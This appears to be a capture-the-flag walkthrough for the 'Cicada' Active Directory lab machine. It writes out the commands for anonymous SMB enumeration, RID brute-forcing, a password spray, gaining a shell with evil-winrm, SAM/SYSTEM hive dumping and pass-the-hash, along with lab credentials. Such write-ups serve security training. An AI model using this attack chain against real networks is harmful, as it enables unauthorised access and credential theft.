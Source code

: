 # Cicada

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Machine IP Address : 10.10.11.35



### Enumeration Phase

Start with Nmap Scan

```
nmap -Pn -A -p- 10.10.11.35
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems to be an Active Directory box.



### Enumerating SMB

I started by enumerating SMB to see what access is available for guest/anonymous users.

```
smbmap -H 10.10.11.35 -u 'anonymous'
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

First, I tried accessing each share. Using smbclient, I was able to access the HR share.

```
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

"I used the `get` command in smbclient to transfer the 'Notice from HR.txt' file, which revealed a password."

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have a password, let's see if any users are using it.



### Enumerating Users

We try to find domain users by brute-forcing RIDs.

```
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

I found several usernames, so I’ll try to validate them using the password we discovered. I put all the usernames in a text file and performed a password spray.

```
nxc smb 10.10.11.35 -u userrr.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We found a user who uses the password: 'michael.wrightson.

Next, I’ll look for a user with higher privileges.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And we found a user whose password is stored in the description

Now, I ran `smbmap` to check if this user has access to more shares, and it turns out they do.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Checked the 'DEV' share and found a PowerShell script called 'Backup\_script.ps1.

"Executed the following commands to access the DEV share:

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
```

I listed the contents with the `ls`command , and `get`the Backup\_script.ps1

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Checking its contents revealed a new user, 'emily.oscars,' along with her password!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Get the Shell

Enumerated the shares with the new user but found nothing, so I tried to get a shell using ‘evil-winrm.

```
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Successfully obtained a shell.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searched for the user flag in several directories and finally found it in `Desktop/user.txt`.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

Ran `whoami /priv` to check the user's privileges

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

With this, I realized that ‘SeBackupPrivilege’ can be used to gain read access to any file, including `root.txt`.

I did some more research and found a PowerShell script to access the `root.txt` file

{% embed url="https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------" %}

We start with transfer the script to target computer with our python server running and following command.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Now, I ran the script using the following command to get access to the `root.txt` file

```
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, I can view the contents of `root.txt`!

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Other Method

Follow and refer this site to exploit : [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)&#x20;

Create or enter a folder where you want to save the files.

First, save the SAM and SYSTEM registry hives using the following commands:

```
reg save HKLM\SAM C:\Users\emily.oscar.CICADA\Videos\sam
reg save HKLM\SYSTEM C:\Users\emily.oscar.CICADA\Videos\system
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Download the files to your local machine, then use `pypykatz` to extract the hashes.

Using this command:

```
pypykatz registry --sam sam system
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

With the extracted hash, we can now log in again. Instead of using the password, we'll use the `-H` option to authenticate with the hash.

This allows us to bypass the need for a password and authenticate directly using the hash, providing elevated access.

Using this command:&#x20;

```
evil-winrm -i 10.10.11.35  -u 'Administrator' -H 'hash'
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Logged in as the Administrator using the hash, located the `root.flag` file, and displayed its contents with `cat`. Challenge complete!

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
